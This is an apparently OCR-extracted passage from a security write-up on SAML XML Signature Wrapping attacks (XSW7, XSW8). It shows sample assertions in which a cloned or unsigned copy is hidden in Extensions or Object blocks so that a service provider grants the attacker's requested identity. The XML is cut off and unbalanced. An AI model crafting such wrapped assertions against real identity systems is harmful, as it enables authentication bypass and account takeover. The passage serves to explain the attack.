 ```
<Subject>
<NameID Format="urn:oasis:names:tc:SAML:1.1:nameid-format:unspecified">evluser@example.com</NameID>
<SubjectConfirmation Method="urn:oasis:names:tc:SAML:2.0:cm:bearer">
<SubjectConfirmationData NotOnOrAfter="2023-07-02T12:44:56Z" Recipient="https://service-provider.com/acs"/>
</SubjectConfirmation>
</Subject>
<Conditions NotBefore="2023-07-02T12:34:56Z" NotOnOrAfter="2023-07-02T12:44:56Z">
<AudienceRestriction>
<Audience>https://service-provider.com</Audience>
</AudienceRestriction>
</Conditions>
<AuthnStatement AuthnInstant="2023-07-02T12:34:56Z" SessionIndex="_e55c9c3e8e9f6744e6e8d18d5f7fdd5a">
<AuthnContext>
<AuthnContextClassRef>urn:oasis:names:tc:SAML:2.0:ac:classes:Password</AuthnContextClassRef>
</AuthnContext>
</AuthnStatement>
</Assertion>
</Extensions>
<Signature>
<!-- Signature information is located here -->
</Signature>
</Assertion>

```
In the above example, there is the cloned Assertion ( distinguished by the ID value `_e55c9c3e8e9f6744e6e8d18d5f7fdd5a` ) placed in the Extensions block. This Assertion may contain the information that the attacker manipulated and the identity statement he requested. The service provider accepts the Assertion in the Extensions block and grants the attacker requested authorization and access rights.

- XSW8 :// is accomplished by adding an "Object" block containing an original unsigned copy Assertion. This way, the attacker can insert it directly into the SAML message without manipulating the original Assertion.

```
<Assertion xmlns="urn:oasis:names:tc:SAML:2.0:assertion" ID="_e55c9c3e8e9f6744e6e8d18d5f7fdd5b" Version="2.0" IssueInstant="2023-07-02T12:34:56Z">
<Issuer>https://identity-provider.com</Issuer>
<Subject>
<NameID Format="urn:oasis:names:tc:SAML:1.1:nameid-format:unspecified">user@example.com</NameID>
<SubjectConfirmation Method="urn:oasis:names:tc:SAML:2.0:cm:bearer">
<SubjectConfirmationData NotOnOrAfter="2023-07-02T12:44:56Z" Recipient="https://service-provider.com/acs"/>
</SubjectConfirmation>
</Subject>
<Conditions NotBefore="2023-07-02T12:34:56Z" NotOnOrAfter="2023-07-02T12:44:56Z">
<AudienceRestriction>
<Audience>https://service-provider.com</Audience>
</AudienceRestriction>
</Conditions>
<AuthnStatement AuthnInstant="2023-07-02T12:34:56Z" SessionIndex="_e55c9c3e8e9f6744e6e8d18d5f7fdd5b">
<AuthnContext>
<AuthnContextClassRef>urn:oasis:names:tc:SAML:2.0:ac:classes:Password</AuthnContextClassRef>
</AuthnContext>
</AuthnStatement>
<Object>
<!-- Unsigned copy of original Assertion -->
<Assertion xmlns="urn:oasis:names:tc:SAML:2.0:assertion" ID="_e55c9c3e8e9f6744e6e8d18d5f7fdd5c" Version="2.0" IssueInstant="2023-07-02T12:34:56Z">
<Issuer>https://identity-provider.com</Issuer>
<Subject>
```